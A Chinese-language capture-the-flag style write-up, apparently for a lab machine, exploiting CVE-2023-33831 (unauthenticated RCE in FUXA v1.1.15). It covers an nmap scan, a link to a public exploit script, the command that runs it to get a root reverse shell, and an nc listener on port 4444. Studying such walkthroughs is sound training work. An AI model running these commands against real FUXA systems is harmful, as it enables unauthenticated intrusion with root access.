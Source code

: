 ```yaml
---
description: Easy - Linux / FUXA v1.1.15 - 远程代码执行
---
```


# ✔️ CVE-2023-33831

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个端口：

```bash
nmap -sC -sV -p- -oA cve33831 192.168.149.35 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 检查1881端口上的内容，在/editor中发现了当前正在运行的软件及其版本号：FUXA v1.1.15-1316

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据已获取的正在运行的软件版本号FUXA v1.1.15-1316，找到了一个未认证的远程代码执行的漏洞：CVE-2023-33831

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

Exploit： https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831/blob/main/CVE-2023-33831.py

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接执行该利用脚本，即可获得一个拥有root权限的反弹shell：

```bash
python3 exploit.py --rhost 192.168.149.35 --rport 1881 --.244 --lport 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/6 (35).png" alt=""><figcaption></figcaption></figure>

* 获取proof.txt文本内容：

<figure><img src="../../.gitbook/assets/7 (34).png" alt=""><figcaption></figcaption></figure>
